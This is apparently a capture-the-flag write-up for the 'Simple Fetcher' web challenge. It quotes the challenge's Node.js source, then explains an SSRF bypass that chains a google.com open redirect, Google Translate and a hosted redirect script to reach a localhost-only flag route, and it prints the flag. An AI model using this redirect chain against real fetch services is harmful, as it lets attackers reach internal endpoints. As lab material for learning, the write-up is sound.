


# Simple Fetcher — Iran Tech Olympics CTF 2025

> **Room / Challenge:** Simple Fetcher (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Iran Tech Olympics CTF 2025
- **Challenge:** Simple Fetcher (web)
- **Target / URL:** `http://65.109.213.16:3333`
- **Difficulty:** `Easy / Medium`
- **Points:** `105`
- **Date:** `29-09-2025`

---

## Goal

We have to get the flag by using the internal fetch functionality to get the flag.

## My Solution

Here is the [Source Code](./simple-fetcher.zip.zip)

This challenge is easy but not simple :((.

Examining the source code you can see that it just have one file `app.js`. There are just 2 routes we have to focus on:

```javascript
app.post("/fetch", async (req, res) => {
  const inputUrl = req.body.url;
  if (!inputUrl) {
    return res.status(400).send("URL is required");
  }

  try {
    if (
      !inputUrl.startsWith("https://www.google.com/") &&
      !inputUrl.startsWith("https://google.com/")
    ) {
      return res
        .status(400)
        .send(
          "URL must start with https://www.google.com/ or https://google.com/"
        );
    }
    const parsedUrl = new URL(inputUrl);
    if (
      parsedUrl.hostname !== "www.google.com" &&
      parsedUrl.hostname !== "google.com"
    ) {
      return res
        .status(400)
        .send("Only www.google.com or google.com hostnames are allowed");
    }

    const browser = await puppeteer.launch({
      args: ["--no-sandbox", "--disable-setuid-sandbox"],
      headless: true,
    });
    const page = await browser.newPage();
    await page.goto(inputUrl, {
      waitUntil: "networkidle2",
      timeout: 10000,
    });
    const content = await page.content();
    await browser.close();
    res.send(`<h2>Content from ${inputUrl}:</h2><pre>${content}</pre>`);
  } catch (error) {
    res.status(500).send(`Error fetching URL: ${error.message}`);
  }
});

app.get("/flag", (req, res) => {
  const clientIp = (req.ip || req.connection.remoteAddress || "").toString();
  console.log(`Client IP: ${clientIp}`);
  if (clientIp.includes("127.0.0.1") || clientIp.includes("::1")) {
    const flag = process.env.FLAG || "Flag{fake_flag}";
    res.send(flag);
  } else {
    res.status(403).send("Access denied. Only local access allowed.");
  }
});
```

Although, it is simple but it takes me several hours to find out how to get the flag.

```javascript
if (
  !inputUrl.startsWith("https://www.google.com/") &&
  !inputUrl.startsWith("https://google.com/")
) {
  return res
    .status(400)
    .send("URL must start with https://www.google.com/ or https://google.com/");
}
const parsedUrl = new URL(inputUrl);
if (
  parsedUrl.hostname !== "www.google.com" &&
  parsedUrl.hostname !== "google.com"
) {
  return res
    .status(400)
    .send("Only www.google.com or google.com hostnames are allowed");
}
```

Those two conditions just allow us to use `https://www.google.com/` and `https://google.com/` to make the fetcher access to the resource we want.

In this challenge, we will take advantage of **Google Translate**. GG Translate has a functionality to translate given page to whatever we want, you can try with `https://translate.google.com/translate?u=https://jameskaois.com`:



By this way we can setup a server and a simple `index.html` has this script:

```html
<script>
  window.location = "http://65.109.213.16:3333/flag";
</script>
```

This script will help me us redirect the fetch system to get the flag. Combine this with GG Translate: `https://google.com/url?q=https://translate.google.com/translate?u=https://<YOUR_REDIRECT_DOMAIN>`



Flag: `ASIS{ez_gg_open_redirector_68e04025dd853596d7762adc}`
